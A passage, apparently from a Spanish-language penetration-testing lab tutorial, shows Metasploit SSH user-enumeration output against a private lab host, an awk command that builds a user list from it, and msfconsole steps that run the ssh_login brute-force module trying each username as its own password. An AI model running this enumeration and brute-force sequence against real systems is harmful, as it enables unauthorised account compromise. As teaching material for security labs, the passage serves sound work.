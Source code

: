 ```
[+] 192.168.122.254:22 - SSH - User 'trouble' found
[+] 192.168.122.254:22 - SSH - User 'tss' found
[+] 192.168.122.254:22 - SSH - User 'udadmin' found
[+] 192.168.122.254:22 - SSH - User 'ultra' found
[+] 192.168.122.254:22 - SSH - User 'umountfs' found
[+] 192.168.122.254:22 - SSH - User 'umountfsys' found
[+] 192.168.122.254:22 - SSH - User 'umountsys' found
[+] 192.168.122.254:22 - SSH - User 'unix' found
[+] 192.168.122.254:22 - SSH - User 'unscd' found
[+] 192.168.122.254:22 - SSH - User 'us_admin' found
[+] 192.168.122.254:22 - SSH - User 'usbmux' found
[+] 192.168.122.254:22 - SSH - User 'user' found
[+] 192.168.122.254:22 - SSH - User 'uucp' found
[+] 192.168.122.254:22 - SSH - User 'uucpadm' found
[+] 192.168.122.254:22 - SSH - User 'uuidd' found
[+] 192.168.122.254:22 - SSH - User 'vagrant' found
[+] 192.168.122.254:22 - SSH - User 'varnish' found
[+] 192.168.122.254:22 - SSH - User 'web' found
[+] 192.168.122.254:22 - SSH - User 'webmaster' found
[+] 192.168.122.254:22 - SSH - User 'whoopsie' found
[+] 192.168.122.254:22 - SSH - User 'www' found
[+] 192.168.122.254:22 - SSH - User 'www-data' found
[+] 192.168.122.254:22 - SSH - User 'xpdb' found
[+] 192.168.122.254:22 - SSH - User 'xpopr' found
[+] 192.168.122.254:22 - SSH - User 'zabbix' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Como podemos ver, hay una gran cantidad de usuarios creados en el sistema. El siguiente paso es añadir el nombre de los usuarios en un solo fichero, que será el que usemos para ejecutar el ataque de fuerza bruta. Para ello usamos:

`
cat listausr.txt | awk '{print $7}' > listafinal.txt
`

Este comando hará que la lista anterior (que hemos añadido al fichero *listausr.txt*), se traspase a otro fichero dejando únicamente los usuarios (es posible que haya que eliminar las comillas que queden).

Obtenido el fichero *listafinal.txt*, haremos uso de otro módulo de Kali Linux que nos permitirá realizar el ataque de fuerza bruta a través de ssh. Para la ejecución del ataque seguiremos los siguientes pasos:

```
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.122.254
set USER_AS_PASS true
set USER_FILE /home/kali/listafinal.txt
run
```
